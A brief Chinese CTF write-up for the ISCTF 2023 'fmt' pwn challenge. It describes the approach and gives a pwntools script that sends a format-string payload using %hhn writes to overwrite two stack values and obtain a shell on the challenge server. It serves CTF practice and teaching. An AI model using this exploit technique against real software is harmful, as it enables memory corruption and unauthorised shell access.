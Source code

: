 ```yaml
---
title: isctf2023 - fmt
date: 2023/12/3 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过修改栈上两个int值，利用格式化字符串漏洞成功获取shell。
---
```


## 文件分析

保护全开  
ghidra分析为64位程序

## 解题思路

这题是要将栈上的2个int值修改成特定数字就给shell，作者已将地址放在栈上，
gdb动调格式化字符串的参数，发现这2个地址均可访问到，那么直接使用%n将数字写入即可

（我看作者还在buf上放了地址的后8位，估计我这个是非预期解吧）

## EXPLOIT

```python
from pwn import *
def payload(lo):
    global sh
    if lo:
        sh = process('./fmt')
    else:
        sh = remote('43.249.195.138', 22188)
    if lo & 0b10:
        gdb.attach(sh)

    # 第8个参数和第9个参数刚好是那2个地址，分别写入0x12和0x34即可
    # 给新手一个提醒，在同一条printf语句中，%n统计的是累计打印出的字符数
    # %hhn是将地址视为byte *向其中写入数字
    sh.sendline(b'%18d%8$hhn%34d%9$hhn')
    sh.interactive()

payload(0)
```

Done.
